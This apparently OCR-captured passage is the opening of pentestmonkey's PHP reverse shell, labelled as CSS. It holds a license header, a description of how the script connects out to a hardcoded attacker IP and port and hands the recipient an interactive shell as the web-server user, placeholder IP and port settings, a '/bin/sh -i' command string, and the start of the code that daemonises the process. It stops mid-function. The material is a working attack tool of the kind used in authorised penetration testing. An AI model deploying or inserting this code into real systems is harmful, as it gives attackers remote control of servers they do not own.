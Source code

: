 ```css
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
```